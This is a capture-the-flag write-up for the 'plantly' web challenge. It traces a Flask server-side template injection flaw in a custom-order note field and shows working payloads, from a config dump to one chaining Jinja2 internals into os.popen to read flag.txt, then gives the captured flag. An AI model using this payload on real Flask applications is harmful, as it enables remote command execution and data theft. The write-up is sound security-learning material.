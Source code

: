 ## Name: plantly
#### Author: @HuskyHacks
#### Category: Web
#### Difficulty: Medium
#### Description: We purchased a web dev project off of a gig site to build our new plant subscription service, Plantly. I think the dev was a bit rushed and made some questionable choices. Can you please pentest the app and review the source code? We need to know if there are any major issues before going live! We'll give you the source code so you can run a local instance. We also have a live dev instance so if you find any major vulnerabilities, exploit the live instance and prove it by grabbing the flag! The challenge source code is available in the challenge.zip folder. The password is snyk-ftf-2025. Credentials: testuser1@example.com:password123 and testuser2@example.com:mypassword456 


## Procedure
It gives us two users to login into the website ```testuser1@example.com:password123``` and ```testuser2@example.com:mypassword456```, after login and read the source code, we can find the following interesting code in the file ```challenge/src/app/routes/store.py```.

```
    custom_requests = "".join(
        f"<li>Custom Request: {render_template_string(purchase.custom_request)}</li>" for purchase in purchases if purchase.custom_request
    )

    time_of_purchase = datetime.now()
    template = f"""
    <h2>Plantly Receipt</h2>
    <p><strong>Order Date:</strong> { time_of_purchase }</p>
    <hr>
    <h3>Items Purchased</h3>
    <ul>
        {item_list}
    </ul>
    {custom_requests}
    <hr>
    <p><strong>Subtotal:</strong> ${"{:.2f}".format(subtotal)}</p>
    <p><strong>Tax (10%):</strong> ${"{:.2f}".format(tax)}</p>
    <p><strong>Total:</strong> ${"{:.2f}".format(total)}</p>
    <hr>
    <p>Thank you for your purchase!</p>
    """
```
The value for ```custom_requests``` is added to the source code and then it return ```render_template_string(template)``` with the ```template``` value, to call this we need to access to ```/receipt``` page.
<br>

Now we have to following code
```
 user_id = session["user_id"]
    cart_items = CartItem.query.filter_by(user_id=user_id).all()

    if not cart_items:
        flash("Your cart is empty. Add items before checking out.", "warning")
        return redirect(url_for("store.cart"))

    custom_requests = []
    total_price = 0

    for item in cart_items:
        if item.plant_id is None:
            custom_requests.append(item.custom_request)
            total_price += 0
        else:
            total_price += item.plant.price * item.quantity
```
It does a filter and return every cart item using our user session id, then load every item into ```custom_requests``` and return ```render_template("checkout.html", cart_items=cart_items, custom_requests=custom_requests, ...```.

But when we add a custom note, there is not any validation, this can allow us to use a SSTI attack.
```
    custom_note = None
    if request.method == "POST":
        custom_note = request.form.get("note", "")
        session["custom_note"] = custom_note
        flash("Your custom plant request has been added.", "info")
```

We can test this using a simple payload ```{{config}}```.

![Screenshot 2025-03-05 at 8 20 23 AM](https://github.com/user-attachments/assets/17218ae9-83c6-465a-b5de-01c6c0710e4d)


![Screenshot 2025-03-05 at 8 19 36 AM](https://github.com/user-attachments/assets/124c4d27-a5dd-4c7a-aa9d-43e24ebc3e4a)

We were able to recover the flask config using SSTI attack, from here we can read the flag.txt file or try to get a reverse shell from server
![Screenshot 2025-03-05 at 8 21 12 AM](https://github.com/user-attachments/assets/dce37e50-b126-4e94-9174-77ae4a393cce)

using the following payload we can recover the content for flag.txt file ```{{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("cat flag.txt").read() }}```

![Screenshot 2025-03-05 at 8 22 32 AM](https://github.com/user-attachments/assets/2248b8c4-071e-4d9e-acd8-b18989f1a1e0)

![Screenshot 2025-03-05 at 8 22 46 AM](https://github.com/user-attachments/assets/57b5562b-59d9-4552-8be5-ec1d6a5b16cb)


Flag ```flag{982e3b7286ee603d8539f987b65b90d4}```
